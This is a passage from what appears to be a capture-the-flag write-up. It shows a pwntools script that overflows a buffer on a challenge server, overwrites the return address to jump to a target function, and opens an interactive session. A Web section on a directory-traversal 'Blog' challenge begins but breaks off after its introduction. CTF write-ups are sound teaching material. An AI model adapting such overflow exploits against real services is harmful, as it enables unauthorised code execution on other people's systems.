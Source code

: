 <figure><img src="../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

```python
from pwn import *

#r = process('chall')
r = remote("challs.ctf.cafe", 8888)
junk = b'A' * 12 # junk chars
exit = p64(0x004011a8) # format address
addr = p64(0x00401146) # format address

payload = junk
payload += exit
payload += addr
r.sendline(payload)
r.interactive()
```

## Web

### Blog

This is a Directory Traversal Exploit:

{% embed url="https://rouvin.gitbook.io/ibreakstuff/website-security/directory-traversal" %}

Blog presents us with a basic blog page:

<figure><img src="../.gitbook/assets/image (9) (7).png" alt=""><figcaption></figcaption></figure>
